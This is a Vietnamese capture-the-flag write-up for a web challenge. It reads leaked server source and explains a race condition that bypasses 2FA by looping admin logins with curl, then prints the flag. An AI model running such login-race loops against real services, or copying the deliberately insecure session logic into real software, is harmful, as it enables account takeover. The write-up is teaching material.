


# Write Up

## Web



Thử mở F12 để đọc source của trang web này



Thấy nó có để một endpoint `/?source`, thử truy cập vào

---

## Đọc source

Ban đầu anh em để `/?source` sẽ không được, sau khi thử một hồi thì anh em để `/?source=1` là sẽ đọc được source code từ server

```python
import web
import secrets
import random
import tempfile
import hashlib
import time
import shelve
import bcrypt
from web import form
web.config.debug = False
urls = (
  '/', 'index',
  '/mfa', 'mfa',
  '/flag', 'flag',
  '/logout', 'logout',
)
app = web.application(urls, locals())
render = web.template.render('templates/')
session = web.session.Session(app, web.session.ShelfStore(shelve.open("/tmp/session.shelf")))
FLAG = open("/tmp/flag.txt").read()

def check_user_creds(user,pw):
    users = {
        # Add more users if needed
        'user1': 'user1',
        'user2': 'user2',
        'user3': 'user3',
        'user4': 'user4',
        'admin': 'admin',

    }
    try:
        return users[user] == pw
    except:
        return False

def check_mfa(user):
    users = {
        'user1': False,
        'user2': False,
        'user3': False,
        'user4': False,
        'admin': True,
    }
    try:
        return users[user]
    except:
        return False


login_Form = form.Form(
    form.Textbox("username", description="Username"),
    form.Password("password", description="Password"),
    form.Button("submit", type="submit", description="Login")
)
mfatoken = form.regexp(r"^[a-f0-9]{32}$", 'must match ^[a-f0-9]{32}$')
mfa_Form = form.Form(
    form.Password("token", mfatoken, description="MFA Token"),
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = login_Form()
        return render.index(f)

    def POST(self):
        f = login_Form()
        if not f.validates():
            session.kill()
            return render.index(f)
        i = web.input()
        if not check_user_creds(i.username, i.password):
            session.kill()
            raise web.seeother('/')
        else:
            session.loggedIn = True
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False
            session._save()
            raise web.seeother("/mfa")
        return render.login(session.get("username",None))

class mfa:
    def GET(self):
        if not session.get("doMFA",False):
            raise web.seeother('/login')
        f = mfa_Form()
        return render.mfa(f)

    def POST(self):
        if not session.get("doMFA", False):
            raise web.seeother('/login')
        f = mfa_Form()
        if not f.validates():
            return render.mfa(f)
        i = web.input()
        if i.token != session.get("tokenMFA",None):
            raise web.seeother("/logout")
        session.loggedIn = True
        session._save()
        raise web.seeother('/flag')


class flag:
    def GET(self):
        if not session.get("loggedIn",False) or not session.get("username",None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)


class logout:
    def GET(self):
        session.kill()
        raise web.seeother('/')

application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

---

## Phân tích

Thấy đoạn login `2FA`

```python
login_Form = form.Form(
    form.Textbox("username", description="Username"),
    form.Password("password", description="Password"),
    form.Button("submit", type="submit", description="Login")
)
mfatoken = form.regexp(r"^[a-f0-9]{32}$", 'must match ^[a-f0-9]{32}$')
mfa_Form = form.Form(
    form.Password("token", mfatoken, description="MFA Token"),
    form.Button("submit", type="submit", description="Submit")
)
```

Đây là sẽ bài bypass `2FA` hay xác thực hai lần

Khi anh em login xong nó sẽ yêu cầu mình nhập mfatoken vào tiếp để xác thực người dùng, nhưng thực chất là chỉ cần login bước đầu là anh em đã vào được acc rồi, nên sau khi login bước đầu chúng ta sẽ cố gắng trở về trang chủ để truy cập lấy Flag

---

## Script

Chúng ta sẽ thử brute-force liên tục đăng nhập và cố gắng trở về trang chủ, đến khi được thì thôi

```bash
# lấy cookie khi login
curl -i -c jar.txt http://52.59.124.14:5010/login

# brute-force
BASE="http://52.59.124.14:5010"
while true; do
  curl -s -b jar.txt -c jar.txt -d "username=admin&password=admin&submit=" "$BASE/" > /dev/null
done
```

---

## Flag

Flag: ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}